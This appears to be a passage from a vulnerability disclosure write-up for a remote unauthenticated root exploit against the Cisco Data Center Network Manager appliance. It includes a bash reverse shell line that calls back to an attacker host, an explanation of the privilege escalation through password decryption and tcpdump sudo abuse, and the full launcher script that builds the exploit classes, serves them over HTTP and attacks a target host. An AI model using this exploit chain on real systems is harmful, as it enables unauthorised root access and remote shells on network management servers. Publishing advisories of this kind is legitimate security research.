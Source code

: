 ```bash
bash -i >& /dev/tcp/LHOST_XXX/4446 0>&1

# cleanup (this appears to be safe, we still get a shell)
rm /tmp/shelly.sh /tmp/pass
```
> Snippet #3: `pwned` privilege escalation script

This shell script will fetch the pre-compiled `DCNMCrypto` Java class from the same Python web server (on port 4445) that serves the `Exploit` class. 
It will then use that to decrypt the `sysadmin` password and write the shell script `shelly.sh` to the file system.

`shelly.sh` is a script that implements the [GTFObins](https://gtfobins.github.io/gtfobins/tcpdump/) `tcpdump` technique described in [Vulnerability #2](#2-insecure-sudo-permissions). 
The exploit will use `su` to run `shelly.sh` with the `sysadmin` password and return a `bash` reverse shell to the caller (*LHOST*) to port 4446 running as `root`!

The shell script which does it all is shown below:

```bash
#!/bin/bash

echo -e "\e[1;36mRemote Unauthenticated root Exploit for Cisco Data Center Network Manager virtual appliance\e[0m"
echo "  Tested on versions 11.5(1) and 11.5(2)"
echo -e "\e[1;34mby Pedro Ribeiro (pedrib@gmail.com|@pedrib1337) from Agile Information Security\e[0m"
echo ""
echo "For more info refer to the advisory:"
echo "  https://github.com/pedrib/PoC/tree/master/advisories/Cisco/DCNMPwn.md"
echo "  https://www.zerodayinitiative.com/advisories/ZDI-22-506/"
echo ""

JAVA=`javac -version 2>&1 | grep '1.8.0'`
if [[ -z $JAVA ]]; then
  echo "\e[1;31mThis exploit requires the Java 8 compiler (javac) in the path\e[0m"
  exit 1
fi

if [[ ! "$#" -eq 2 ]]; then
  echo -e "\e[1;31mUsage: ./DCNMPwn.sh <RHOST> <LHOST>\e[0m"
  exit 1
fi

RHOST="$1"
LHOST="$2"

#1: Prepare and build the Exploit and DCNMCrypto utilities, as well as the pwned script
sed "s/LHOST_XXX/$LHOST/g" ExploitTemplate.java > Exploit.java
sed "s/LHOST_XXX/$LHOST/g" pwnedTemplate > pwned
javac Exploit.java
javac DCNMCrypto.java

#2: We assume DCNMPwn.jar is already built and in the same dir
echo "Starting classloader HTTP server on port 4445"
python2 -m SimpleHTTPServer 4445 &
PYTHONPID=$!

#3: Pull it all together and receive Shelly!
echo "Firing up request and sending to $RHOST"
sleep 5 && java -jar DCNMPwn.jar "https://$RHOST" "$LHOST" 4445 Exploit 2>/dev/null &

sleep 10 && kill $PYTHONPID >/dev/null &
sleep 10 && rm pwned Exploit.java Exploit.class DCNMCrypto.class &

```